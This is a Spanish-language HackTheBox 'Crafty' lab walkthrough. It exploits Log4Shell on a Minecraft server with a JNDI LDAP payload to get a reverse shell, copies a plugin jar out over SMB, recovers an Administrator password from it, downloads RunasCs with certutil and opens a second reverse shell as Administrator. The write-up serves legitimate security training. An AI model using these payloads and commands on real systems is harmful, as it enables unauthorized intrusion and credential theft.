# Crafty

```bash
nmap -p- --open -T5 -sCV --min-rate 5000 -n -Pn 10.129.230.193 -oN scan_nmap.txt
```



Vemos que nos enfrentamos a un sistema Windows porque el ttl=127
Además el http-server--header es Microsoft-IIS
Y también en la info del servicio Minecraft

- Agregamos el host *crafty.htb*
```bash
whatweb "http://10.129.230.193"
```



- Microsoft IIS



-
```bash
nmap --script http-enum 10.129.230.193
```

No reporta nada

- Cuando abrimos la web nos encontramos un posible subdominio


Si agrego el subdominio a */etc/* me redirecciona a la misma pag

- Este comentario nos puede dar información sobre un posible LFI



Si intentamos acceder a ese recurso no tenemos acceso y nos sale este mensaje de credenciales incorrectas



- Escaneamos con gobuster posibles recursos expustos
```bash
gobuster dir -u http://crafty.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
```



No parece haber nada interesante a parte de los directorios que ya hemos visto

- Escaneo subdominios pero no encuentro nada a priori
```bash
wfuzz -c -t 200 --hc=301 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.crafty.htb" http://crafty.htb
```

- Si en la url no hay *case-sensitive*, es decir, si le da igual las mayus y las minúsculas, es una máquina windows

- NO TIENE PINTA que vaya por el puerto 80, intentaremos por el puerto *25565 Minecraft*

- Nos descargaremos una Minecraft Console Client para conectarnos al servidor crafty.htb
https://github.com/MCCTeam/Minecraft-Console-Client

Le damos permisos de ejecución al binario
```bash
chmod u+x MinecraftClient-20250522-285-linux-x64
```

Nos conectamos
```bash
./MinecraftClient-20250522-285-linux-x64
```

- Introducimos un nombre de usuario
- Dejamos en blanco la passwd
- Introducimos la dirección IP del servidor
```bash
crafty.htb
```

Buscando exploits de Minecraft encontramos uno llamado *Log4Shell*



Buscaremos algun PoC que nos permita explotar esta vulnerabilidad conocida
https://github.com/kozmer/log4j-shell-poc.git

Ejecutamos el script
```bash
python3 poc.py
```

pero nos falta un archivo de versión de java
*No such file or directory: **'/home/qarlg/Labs/HackTheBox/crafty/log4j-shell-poc/jdk1.8.0_20/bin/java'***

Buscamos en https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html
(Nos lo dicen en el propio repositorio es una versión de java)
- Elegimos la versión de linux x64 en .tar
Nos tenermos que registrar en Oracle. Después de 800 intentos de fallo de servidor para registrarse en oracle se descarga el binario xd -> Lo he tenido que hacer desde edge, ni opera ni firefox me dejaba registrarme

Lo descomprimimos
```bash
tar -xf jdk-8u20-linux-x64.tar.gz
```

Tendremos que renombrarlo, el script espera el archivo acabado en 20, y este jdk acaba en 202, asique le cambiamos el nombre para que acabe en 20
```bash
mv jdk1.8.0_202 jdk1.8.0_20
```

- AHORA podremos ejecutarlo. Vamos a ver qué opciones tendremos que pasarle



```bash
python3 poc.py --userip 10.10.17.61 --webport 8090 --lport 443
```



Con esto el exploit se conectará al servidor http levantado en python en nuestra máquina, obteniendo un recurso malicioso que enviará una revshell del lado del servidor hacia nuestra máquina por nc en el puerto 443.
Tendremos que enviar del lado del cliente de Minecraft el payload que nos indican
```bash
${jndi:ldap://10.10.17.61:1389/a}
```



Vemos que se ejecutan las peticiones pero no obtenemos acceso. Esto es porque el exploit, en principio está preparado para acceder a una máquina linux y no una windows, entonces el binario que está enviando es el */bin/sh* en lugar de un *cmd.exe*



Lo cambiamos y volvemos a ejecutar el poc.py -> Enviamos desde el servidor de Minecraft
```bash
${jndi:ldap://10.10.17.61:1389/a}
```

y obtenemos acceso
**svc_minecraft**

## Escalada

MUY IMPORTANTE ABRIRNOS UNA *POWERSHELL* o habrá comandos que no nos interpretará el cmd.exe
```powershell
powershell
cd ..\Desktop
type user.txt
```

Vemos un archivo interesante que puede contener credenciales. *server.jar*
- Nos lo pasaremos a nuestra máquina para analizarlo con jd-gui

- HAY una forma interesante de conseguir el archivo y es obteniendo su MD5 y pasándolo por virustotal, debido a que puede ser que la gente lo haya subido al ser un archivo conocido y esté disponible su descarga desde ahí.
```powershell
Get-FileHash -algotithm MD5 server.jar
```

No encontramos nada en el apartado de búsqueda -> Community

- Vemos otra carpeta de plugins, con un archivo *playercounter-1.0-SNAPSHOT.jar*
Nos lo pasaremos creando un recurso compartido a nivel de red con **impacket-smbserver**
```bash
impacket-smbserver smbPwned $(pwd) -smb2support -username qarlg -password qarlg123
```

- smbPwned: nombre del recurso compartido
- $(pwd): directorio en el que se creará el recurso, en este caso el actual
- smb2support: soporte para la version 2 de smb
- les añadimos credenciales porque hay veces que por protocolos de seguridad no te deja entablar conexión si no hay credenciales

Nos conectamos al recurso compartido desde la máquina windows
```powershell
net use \\10.10.17.61\smbPwned /u:qarlg qarlg123
```

Vemos como se establece la conexión



Listamos el contenido desde la maq windows para ver lo que hay y vemos lo que hay en la carpeta de nuestro equipo
```powershell
dir \\10.10.17.61\smbPwned
```



_-->CAMBIO IP  -> 10.129.57.63

Desde la máquina windows, nos copiamos el archivo que queremos analizar a la carpeta compartida para poder obtenerlo desde nuestra máquina
```powershell
copy playercounter-1.0-SNAPSHOT.jar \\10.10.17.61\smbPwned\playercounter.jar
```

Lo analizaremos desde nuestro kali, abriremos *jd-gui* y aplicaremos unos parámetros para que no se cierre el desensamblador si cerramos la ventana de consola y para que tampoco nos muestre los logs de la aplicación en tiempo real
```bash
jd-gui &>/dev/null & disown
```

Encontramos lo que parecen unas credenciales



s67u84zKq8IXw

Miramos los usuarios que hay en la máquina windows
```powershell
dir C:\users
```



Probaremos si la posible passwd es del usuario Administrator

Utilizaremos una utilidad *RunasCs* que nos permite ejecutar comandos como un usuario en la máquina windows. Podríamos también aplicar un RPF pero así es más fácil y no requiere de abrir túneles

Tendremos que pasar esta herramienta a la máquina windows por lo que dentro de releasses nos descargaremos la opción de windows *RunasCs.zip*
https://github.com/antonioCoco/RunasCs/releases/tag/v1.5
```bash
unzip RunasCs.zip
```

- Pasaremos el *RunasCs.exe* que hay dentro

Ahora lo haremos por un servidor web, para ver otra forma de transferir archivos en windows
Primero estableceremos un servidor http con python en nuestra máquina
```powershell
https://github.com/antonioCoco/RunasCs/releases/tag/v1.5
```

1. Creamos el servidor web
```bash
python3 -m http.server 80
```

2. Crearemos en la máquina windows un directorio dentro de Temp
```powershell
cd C:\Windows\Temp
mkdir privesc
cd privesc
```

3. Obtenemos el recurso desde la maq windows
```powershell
certutil.exe -f -urlcache -split http://10.10.17.61/RunasCs.exe RunasCs.exe
```

- certutil.exe: equivalente a *curl*
- -f: fuerza sobrescribir si ya existiera
- -urlcache: permite descargar archivos desde URLs
- -split: divide la descarga en bloques, funcionamiento más fiable
- RunasCs.exe: hay que especificarle el nombre con el que se guardará el archivo en el sistema

```powershell
./RunasCs.exe -help
```



Intentaremos ejecutar comandos ahora como Administrador para comprobar si la contraseña s67u84zKq8IXw es correcta
```powershell
.\RunasCs.exe Administrator s67u84zKq8IXw "cmd.exe /c whoami"
```



Nos devuelve el resultado por lo que las credenciales son correctas

Ahora nos entablamos una revshell escuchando con
```bash
nc -nlvp 4444
```

```powershell
.\RunasCs.exe Administrator s67u84zKq8IXw cmd.exe -r 10.10.17.61:4444
```

**Administrator**

```powershell
cd C:\Users\Administrator\Desktop
type root.txt
```
